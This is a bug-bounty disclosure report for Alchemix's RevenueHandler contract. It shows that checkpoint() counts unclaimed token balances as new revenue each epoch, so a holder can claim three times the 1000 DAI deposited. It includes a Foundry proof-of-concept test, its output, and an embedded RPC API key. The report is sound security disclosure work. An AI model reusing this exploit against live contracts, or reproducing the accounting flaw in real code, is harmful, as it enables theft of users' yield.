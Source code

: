 
# `RevenueHandler.checkpoint` isn't correctly

Submitted on May 15th 2024 at 20:16:14 UTC by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31253

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
`RevenueHandler.checkpoint` isn't correctly when `tokenConfig.poolAdapter` is __0__, which cause `epochRevenues` record wrong number, so some users will claim more token than expected, and other user can't claim the tokens

## Vulnerability Details
`RevenueHandler.checkpoint` isn't correctly when `tokenConfig.poolAdapter` is __0__, which cause `epochRevenues` record wrong number, so some users will claim more token than expected, and other user can't claim the tokens
## Vulnerability Details
In [RevenueHandler.checkpoint](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L228-L268), if `tokenConfig.poolAdapter` is zero, `epochRevenues[currentEpoch][token] += amountReceived;` is used to update value, and `thisBalance` is equal to `IERC20(token).balanceOf(address(this))`
__The issue is that `IERC20(token).balanceOf(address(this))` may contains the token that hasn't been claimed. In such case, it means that the amount will be added twice.__

```solidity
228     function checkpoint() public {
229         // only run checkpoint() once per epoch
230         if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
231             currentEpoch = (block.timestamp / WEEK) * WEEK;
232 
233             uint256 length = revenueTokens.length;
234             for (uint256 i = 0; i < length; i++) {
	...
244 
245                 uint256 thisBalance = IERC20(token).balanceOf(address(this));
246 
247                 // If poolAdapter is set, the revenue token is an alchemic-token
248                 if (tokenConfig.poolAdapter != address(0)) {
	...
258                 } else {
259                     // If the revenue token doesn't have a poolAdapter, it is not an alchemic-token
260                     amountReceived = thisBalance;  <<<--- thisBalance is IERC20(token).balanceOf(address(this));

261 
262                     // Update amount of non-alchemic-token revenue received for this epoch
263                     epochRevenues[currentEpoch][token] += amountReceived; <<<--- += is used here
264                 }
265 
266                 emit RevenueRealized(currentEpoch, token, tokenConfig.debtToken, amountReceived, treasuryAmt);
267             }
268         }
269     }
```


## Impact Details
`epochRevenues` isn't updated correctly in some case, so some users will claim more token than expected, and other user can't claim the tokens

## References
Add any relevant links to documentation or code



## Proof of Concept
Put the following code in `src/test/RevenueHandler.t.sol` and run
```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/0TbY2mhyGA4gLPShfh-PwBlQ3PDNUdL1 --fork-block-number 17133822 --mc RevenueHandlerTest --mt testTwoCheckpoint -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/RevenueHandler.t.sol:RevenueHandlerTest
[PASS] testTwoCheckpoint() (gas: 2223762)
Logs:
  currentEpoch                    : 1686182400
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 1000000000000000000000
  currentEpoch                    : 1687392000
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 2000000000000000000000
  currentEpoch                    : 1688601600
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 3000000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.07ms (2.69ms CPU time)

Ran 1 test suite in 1.22s (6.07ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As we can see from the test, only `1000e18` DAI is transferred to `revenueHandler`, but the `tokenId` can claim 3000e18 DAI

```solidity
    function testTwoCheckpoint() external {
        uint256 currentEpoch;
        uint256 WEEK = 2 weeks;
        revenueHandler.setPoolAdapter(dai, address(0));

        uint tokenId = _initializeVeALCXPosition(10e18);

        _jumpOneEpoch();
        _jumpOneEpoch();
        _jumpOneEpoch();

        uint256 revAmt = 1000e18;
        _accrueRevenue(dai, revAmt);
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;

        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));

        _jumpOneEpoch();
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;
        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));

        _jumpOneEpoch();
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;
        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));
    }
```
